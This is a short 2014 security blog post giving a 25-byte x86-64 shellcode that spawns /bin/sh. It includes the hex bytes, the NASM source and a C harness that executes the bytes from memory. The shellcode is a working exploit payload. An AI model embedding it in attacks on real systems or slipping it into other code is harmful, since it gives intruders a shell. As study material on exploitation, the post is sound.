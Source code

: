 ```yaml
---
layout: post
title: "Minimal x86-64 shellcode for /bin/sh?"
date: 2014-06-05 01:54:22 +0000
permalink: /2014/06/05/minimal-x86-64-shellcode-for-binsh/
category: Security
tags:
  - Exploitation
  - Security
redirect_from:
  - /blog/minimal-x86-64-shellcode-for-binsh/
---
```

I was trying to figure out the minimal shellcode necessary to launch /bin/sh from a 64-bit processor, and the smallest I could come up with is 25 bytes: `\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05`.

This was produced from the following source:

    BITS 64
    
    main:
      mov rbx, 0xFF978CD091969DD1
      neg rbx
      push rbx
      xor eax, eax
      cdq
      xor esi, esi
      push rsp
      pop rdi
      mov al, 0x3b  ; sys_execve
      syscall

Compile with nasm, examine the output with `objdump -M intel -b binary -m i386:x86-64 -D shellcode`.

Here's a program for testing:

    #include <sys/mman.h>
    #include <stdint.h>
    
    char code[] = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05";
    
    int main(){
      mprotect((void *)((uint64_t)code & ~4095), 4096, PROT_READ|PROT_EXEC);
      (*(void(*)()) code)();
      return 0;
    }

I'd like to find a good tool to compile my shellcode, extract as hex, build a test bin, and run it, all in one.  Should be a trivial python script, actually.
